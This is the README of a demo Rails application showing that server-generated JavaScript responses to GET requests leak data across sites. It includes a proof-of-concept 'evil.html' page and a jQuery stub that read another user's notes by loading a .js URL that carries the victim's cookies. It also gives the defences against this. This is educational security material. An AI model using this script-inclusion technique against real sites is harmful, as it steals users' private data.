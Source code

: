 # The security risks of RJS/SJR

37signals recently published an article on [server-generated JavaScript
responses](https://37signals.com/svn/posts/3697-server-generated-javascript-responses),
which architecturally speaking is RJS by another name. You make a request to the
server, the server returns JavaScript, and the browser runs the response through
`eval()`. This application demonstrates why using this approach for certain
kinds of requests is not safe.

## Introducing the SJR pattern

I will recap here the architectural pattern described on the 37signals blog. The
following describes the app contained in this repo, so you can run this example
yourself.

Suppose our app has two models: `User` and `Note`.

```ruby
class User < ActiveRecord::Base
  has_many :notes
end

class Note < ActiveRecord::Base
  belongs_to :user
end
```

It has some form of login mechanism, which I have built only the bare minimum
required to put a user in the session: an endpoint that, when accessed, finds a
user by name and logs them in. The fact that this controller does no real access
control is not at all a factor in the security of SJR.

```ruby
class UsersController < ApplicationController
  def login
    user = User.find_or_create_by(:username => params[:username])
    session[:user_id] = user.id
    redirect_to '/notes'
  end
end
```

To demonstrate this login mechanism, we're going to access our site via two
different hostnames. Since cookies are scoped by hostname, this will simulate
two different people accessing the site. Add these lines to your `/etc/hosts`:

```
127.0.0.1 alice
127.0.0.1 bob
```

Now start up the Rails app:

```
$ bundle --path .bundle
$ bundle exec rake db:migrate
$ bundle exec rails server
```

and visit `http://alice:3000/users/alice`. You should be redirected to
`http://alice:3000/notes`, which will tell you you're logged in as `alice`. From
this page, you can add notes -- fill in a title and body and click `Save`, and
the note will show up in your list. If you log in as another user, you get
another list; each user's note list is isolated from the others. When you
refresh the page, your notes are still there.

This is all accomplished in the `NotesController`:

```ruby
class NotesController < ApplicationController
  before_filter do
    @user = User.find_by(:id => session[:user_id])
    render(:text => 'Forbidden', :status => 403) unless @user
  end

  def index
  end

  def create
    note_params = params.require(:note).permit(:title, :body)
    @note = @user.notes.create(note_params)
  end
end
```

It checks you're logged in, displays your notes to you, and creates new notes.
The `create` action has a `js` template, which is what adds the note to the list
when you click `Save`.

```js
// app/views/notes/create.js.erb

$('#notes').append('<li><%=j @note.title %></li>');
```

This is the pattern demonstrated in the 37signals post: the combination of
`form_for(:remote => true)`, `respond_to { |f| f.js { ... } }` and a JavaScript
template. You don't actually need to use `respond_to` explicitly; Rails will
pick a template based on the request format, so just having a `.js.erb` template
for an action is enough.

## Using SJR for GET requests

Now, this example uses a POST request, but seeing this work with so little code
might tempt you into using the same pattern for GET. You decide you want to
access the user's list of notes via JavaScript, so you write something like:

```js
$.get('/notes.js', function(response) {
  eval(response);
});
```

This works because Rails sees the `.js` at the end of the URL, and dutifully
fires off `respond_to` with `format = js`, and renders a JavaScript template.
Here's ours:

```js
// app/views/notes/index.js.erb

<% @user.notes.each do |note| %>
  $('#notes').append('<li><%=j note.title %></li>');
<% end %>
```

As expected, the server retrieves the current user's notes, sends back some
JavaScript, we `eval()` it and we've got the notes on the page.

## Stealing data

Earlier, I asked you to make two aliases for `localhost`. So far we've been
accessing the site through the `alice` hostname. Now, visit
`http://bob:3000/notes`; you should see the text `Forbidden`. When going via a
different hostname, you have a different set of cookies, and since we've not
logged in on the `bob` hostname, we can't access the `Notes` controller.

So it looks like the app is doing its job of keeping unauthorized users out of
each others' private data. However, we can easily make a page that steals
Alice's data, and here it is:

```html
<!-- evil.html -->

<!doctype>
<html>
  <head>
    <meta charset="utf-8">
    <title>evil</title>
    <script src="http://code.jquery.com/jquery-1.10.2.min.js"></script>
  </head>
  <body>

    <ul id="notes"></ul>

    <script src="http://alice:3000/notes.js"></script>

  </body>
</html>
```

This page loads jQuery, sets up a container list, then injects
`http://alice:3000/notes.js`. Because this request is to the `alice` hostname,
it will send _Alice's_ cookies, and thus load and return Alice's notes. Since we
put a `.js` in the URL, Rails will use the `.js` template and send JavaScript
back, which the browser runs for us.

To see this in action, start a static file server on another port:

```
$ python -m SimpleHTTPServer 3001
```

and visit `http://bob:3001/evil.html`. Remember: we're on a different hostname,
with our own set of cookies, so we're not logged in as Alice. But despite this,
we are able to display her notes. We could even grab them directly by faking out
the jQuery API that `notes.js` talks to:

```js
var $ = function() {
  return {
    append: function(html) {
      // we just stole Alice's note titles!
    }
  };
};
```

## How does the attack work?

When you make a request, the browser looks up any cookies it holds that are
scoped to the scheme, host and path of the request's URL, and includes them in
the request. This includes requests made by `script` tags. So, when
`http://bob:3001/evil.html` includes `http://alice:3000/notes.js`, the cookies
for the `alice` hostname, which identify `alice` as the current user, are sent.

This means any site can impersonate you, simply by sending requests to a site
you are currently logged into.

Rails protects POST requests from this sort of cross-site request forgery
(CSRF) by including a special session-specific token in forms. Any POST request
not having a token that matches the current session will be rejected. Since
other sites cannot discover this token, POST requests can be trusted.

No such protection is applied to GET requests, and nor should it be. Rails will
process any GET request it receives, and will respect whatever cookies are sent
along with it.

Finally, Rails usually infers the `format` of a request from its 'extension',
defaulting to `html`. Thus, requests ending with `.js` have the `format` `js`.
But, it _also_ treats requests made with `XMLHttpRequest` (i.e. `$.get()`,
`$.post()`, etc.) as having a `format` of `js`, hence it rendering a JavaScript
template in response to our form post.

So, any site can send a `.js` request to our site, the browser will attach our
cookies, and Rails will process the request and return JavaScript. This
JavaScript runs in the context of the including page, modifying its DOM, calling
its functions, and so on. It is this side-effect-based, procedural nature of
JavaScript that lets the attacker's page include it and 'read' data from our
site, by providing its own implementations of the functions the JavaScript
calls.

## What should I do?

You can continue to use SJR for POST requests, although personally I find it an
ugly architectural style with poor separation of concerns. Rails will make sure
POST requests originate from _your_ site.

For GET requests, you should return _data, not code_. The attacker can 'read' the
response from another domain because JavaScript has side effects and modifies
global state that's visible to the attacker. Data like JSON or HTML has no side
effects and cannot be read in the same way. The only way the attack could read
the response is if you enable CORS support, _which you should never do on a site
that uses cookies for authorization_.

You should _not_ use `respond_to` to check for XHR requests. Rails has a method
for this, it's called `request.xhr?`. `respond_to` has too broad a definition of
what a 'JavaScript' request is, and will lie to you. `request.xhr?` is based on
checking the `X-Requested-With` header, which is set by jQuery's Ajax API but
cannot be set using `script` tags.

Finally, bear in mind that this is not a problem with Rails per se. Rails takes
sensible security precautions and the above does not imply that Rails itself is
broken. The problem is that people have been encouraged to use `.js` URLs and
send JavaScript as an API response, which is dangerous. It is equally dangerous
in any other web framework; this vulnerability arises from how the web works,
and is an anti-pattern in Rails usage, rather than in the Rails codebase itself.

